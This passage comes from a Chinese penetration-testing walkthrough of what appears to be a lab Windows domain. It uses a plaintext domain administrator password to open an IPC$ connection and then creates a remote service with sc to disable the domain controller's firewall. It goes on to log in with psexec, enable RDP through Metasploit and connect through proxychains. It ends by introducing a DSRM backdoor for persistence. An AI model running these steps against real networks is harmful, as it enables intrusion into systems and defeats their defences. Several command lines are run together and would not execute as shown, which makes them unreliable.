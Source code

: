 失败了，应该是 Windows 2008 开启了防火墙的原因。没关系，既然有了域管理员的密码，我们可以尝试关闭 Windows 2008 的防火墙。我们用 sc 通过创建服务来远程执行。

首先在 Windows 7 上执行如下，让其与 Windows 2008 建立 ipc$ 连接：

```
net use \\192.168.138.138\ipc$ "dc123.com" /user:"administrator"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlzZuckic5QME4KiaWg7fp9fee0sPeia5PfmXSdlYNxQjwxIZmE9ia2mJ4hw/640?wx_fmt=png)image-20210218215417561

然后创建服务来远程关闭 Windows 2008 的防火墙：

```
sc \\192.168.138.138 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"    # 创建服务sc \\192.168.138.138 start unablefirewall    # 立即启动服务
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvldqNLWFns6Of4JA7N05gD9raia5E3q3S1KtsYia0icCMtxDF3dBlf3vNow/640?wx_fmt=png)image-20210218215544409

此时再次尝试使用 psexec 登录域控：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlGcQ4mHbjNyJf8zF2qIuwB2593BPfWoSl9jsAek9U1YYFdMG3PPY84Q/640?wx_fmt=png)image-20210218215744716

成功上线。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlHiaV0Dq8ib9n2QPwReg5jNeUYXwFxA47cSiay80cNiazcdOPD4bR3xCRVg/640?wx_fmt=png)image-20210218215904419

开启 Windows 2008 远程桌面：

```
use post/windows/manage/enable_rdpset session 2run
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl30pczM6nRoPQOcet1SMtGHrGDxTUcJRknFSAbHamQyKBkhFAB8zE1A/640?wx_fmt=png)image-20210218220208227

执行后，使用 proxychains 设置代理即可连接 Windows 2008 的远程桌面了：

```
proxychains4 rdesktop 192.168.138.138
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlptibfz2pfyGaO1hndnIrFxib1EhMud3DuWBZib9vCP4Ml8YhQ6oEFEedQ/640?wx_fmt=png)

权限维持
----

### 创建 DSRM 后门

> DSRM 是 Windows 域环境中域控制器的安全模式启动选项。每个域控制器都有一个本地管理员账号 (也就是 DSRM 账号)。DSRM 的用途是：允许管理员在域环境出现故障或崩溃时还原、修复、重建活动目录数据库，使域环境的运行恢复正常。在域环境创建初期，DSRM 的密码需要在安装 DC 时设置，且很少会被重置。修改 DSRM 密码最基本的方法是在 DC 上运行 ntdsutil 命令。
> 
> 在渗透测试中，可以使用 DSRM 账号对域环境进行持久化操作。我们知道，每个 DC 都有本地管理员 (administrator) 账号和密码（与域管理员账号密码不同）。DSRM 账号可以作为每个域控制器的本地管理员用户，通过网络连接域控制器，进而控制域控制器。
> 
> **注意：该类持久化操作适用的服务器版本：Windows Server 2008 及以后版本的 Windows 服务器。**

**在域控制器上，DSRM 账号的表现形式是本地的管理员 Administrator 用户，也就是说本地管理员 Administrator 用户等于 DSRM 账号。**
